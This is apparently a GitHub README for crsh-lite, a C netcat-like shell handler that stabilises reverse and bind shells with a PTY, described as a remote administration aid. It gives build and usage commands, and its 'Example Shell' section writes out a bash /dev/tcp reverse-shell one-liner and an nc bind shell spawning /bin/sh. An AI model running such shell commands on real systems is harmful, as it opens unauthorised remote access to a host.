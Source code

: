 # crsh-lite

crsh-lite is a light shell handler written in C, meant to make the process of remote administration easier. 

It uses netcat-like functionality to provide asynchronous I/O operations on the remote host. It also automatically spawns a PTY, stabilizes your prompt and resizes the remote terminal, as your local one changes.

crsh-lite is stageless, and only requires a normal reverse or bind shell to be executed. Its essentially a netcat program, but you don't have to worry about spawning a PTY, press CTRL+Z, set terminal to raw mode, etc.

## Example Compilation

```bash
$ make
```

## Syntax

```bash
# Server mode (listen)
$ ./crsh-lite <LPORT>

# Client Mode (connect)
$ ./crsh-lite <RPORT> <RHOST>
```

## Example Usage

```bash
$ ./crsh-lite 9001
$ ./crsh-lite 1337 localhost
```

## Example Shell

```bash
bash -i >&/dev/tcp/localhost/9001
nc -lvp 1337 -e /bin/sh
```
